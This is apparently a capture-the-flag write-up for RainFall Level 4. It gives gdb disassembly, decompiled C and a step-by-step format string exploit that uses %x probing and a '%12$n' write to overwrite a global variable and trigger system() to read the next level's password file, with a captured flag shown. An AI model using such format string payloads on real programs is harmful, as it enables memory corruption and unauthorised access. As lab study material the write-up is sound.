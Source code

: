 # Level 4

```gdb

(gdb) info func
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  p
0x08048457  n
0x080484a7  main
0x080484c0  __libc_csu_init
0x08048530  __libc_csu_fini
0x08048532  __i686.get_pc_thunk.bx
0x08048540  __do_global_ctors_aux
0x0804856c  _fini
(gdb) 


Dump of assembler code for function main:
   0x080484a7 <+0>:	push   ebp
   0x080484a8 <+1>:	mov    ebp,esp
   0x080484aa <+3>:	and    esp,0xfffffff0
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    
End of assembler dump.

(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   ebp
   0x08048458 <+1>:	mov    ebp,esp
   0x0804845a <+3>:	sub    esp,0x218
   0x08048460 <+9>:	mov    eax,ds:0x8049804
   0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>:	lea    eax,[ebp-0x208]
   0x08048477 <+32>:	mov    DWORD PTR [esp],eax
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    eax,[ebp-0x208]
   0x08048485 <+46>:	mov    DWORD PTR [esp],eax
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    eax,ds:0x8049810
   0x08048492 <+59>:	cmp    eax,0x1025544
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
(gdb) 


(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	sub    esp,0x18
   0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:	mov    DWORD PTR [esp],eax
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.



```


It seems to be another format string attack, but more complicated.

Firstly the variable 'm' is a global, so we can find it in the .bss, but this binary use fgets, so we can't overflow, so its another format string attack.

```c
void p(char *param_1)

{
  printf(param_1);
  return;
}

void n(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) { // Once again we have to edit the m variable, but this time the address is way more far
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}
```

So we must edit m again, but the address if kind big this time, we will need a big script for that.

We guess that we have to use the p function to make the attack.

So we are basically going to use the same script as before, but way more heavy.


the 'm' adresses is the following : 0x8049810 lets push it to the stack and point to it using %x.

```sh
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x'" | ./level4
b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x %x'" | ./level4
b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x %x %x'" | ./level4
b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x %x %x %x'" | ./level4
b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x %x %x %x %x'" | ./level4
b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x %x %x %x %x %x'" | ./level4
b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 8049810
level4@RainFall:~$ python -c "print '\x10\x98\x04\x08' + '%x %x %x %x %x %x %x %x %x %x %x %x'" | ./level4

```

We ended up finding it at the 12's %x,

So we must write 11 x to point to m.

Now we must write enough character to write 0x1025544 into m, which is 16930116 in decimal

After some documentation, we can use '%16930116x' to write 16930116 in STDIN.


python -c "print '\x10\x98\x04\x08' + '%16930116x' + '%12\$n'" | ./level4

So here's what i changed, we still push our memory to the stack, this time instead of printing 11 %x, im using '%12$n' to direcly jump to the index of the pointer, which save us byte to substrace to the input.


Since we already wrote 4byte, we are going to substract 16930116 - 4 = 16930112.

And then we try

```sh                                                                                                                                                                                                                              (...)                                                                                                                                                                                                                                                                                                                                          b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

```

A lot of bytes got wrote to stdin, but then the %n took this length and wrote it to our addresses, and entered the if which gaved us the flag.
